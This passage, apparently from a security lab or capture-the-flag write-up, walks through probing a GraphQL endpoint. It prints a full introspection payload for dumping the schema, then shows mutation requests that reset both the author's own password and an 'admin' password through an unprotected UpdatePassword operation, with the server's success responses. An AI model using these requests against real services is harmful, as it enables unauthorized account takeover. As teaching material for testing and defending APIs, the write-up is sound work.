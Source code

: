 Based on the data format and the self-explanatory /graphql endpoint, we are dealing with graphQL. If you're unfamiliar with graphQL, it's a - where the client defines the structure of the data that it wants the server to return. 


Now that we know that graphQL is being used - we can modify and replay our POST request to explore this endpoint a little bit further. GraphQL has a feature called introspection that allows us to make queries against the underlying schema. If introspection is enabled - we can query the schema to understand all available queries, mutations, types, and fields.

The following is a common payload used to dump schema information from graphQL:
```
{"query":"{__schema{queryType{name}mutationType{name}subscriptionType{name}types{...FullType}directives{name description locations args{...InputValue}}}}fragment FullType on __Type{kind name description fields(includeDeprecated:true){name description args{...InputValue}type{...TypeRef}isDeprecated deprecationReason}inputFields{...InputValue}interfaces{...TypeRef}enumValues(includeDeprecated:true){name description isDeprecated deprecationReason}possibleTypes{...TypeRef}}fragment InputValue on __InputValue{name description type{...TypeRef}defaultValue}fragment TypeRef on __Type{kind name ofType{kind name ofType{kind name ofType{kind name ofType{kind name ofType{kind name ofType{kind name ofType{kind name}}}}}}}}"}
```

Sending this query to the server - we receive a 200 OK response and a large response object which contains a ton of information on the underlying schema. As we search through that information, we see a query in the schema that is interesting.

```
"name":"UpdatePassword","description":null,"args":[{"name":"username","description":null,"type":{"kind":"NON_NULL","name":null,"ofType":{"kind":"SCALAR","name":"String","ofType":null}},
```

It looks like there is a query for UpdatePassword that will presumably change a user's password. This is interesting, because after thoroughly exploring the web application - there doesn't appear to be any option for the user to perform this type of action. This functionality may have never meant to have been exposed or used by the user.

With the schema information - we can try and send a request to update our own user's password:
```
{"query":"mutation($username: String!, $password: String!) { UpdatePassword(username: $username, password: $password) { message, token } }","variables":{"username":"navsec","password":"password"}}
```

Response:
```
{"data":{"UpdatePassword":{"message":"Password updated successfully!","token":null}}}
```

We've successfully reset our own password. Now we can try and change other users passwords
```
{"query":"mutation($username: String!, $password: String!) { UpdatePassword(username: $username, password: $password) { message, token } }","variables":{"username":"admin","password":"password"}}
```

Response:
```
{"data":{"UpdatePassword":{"message":"Password updated successfully!","token":null}}}
```
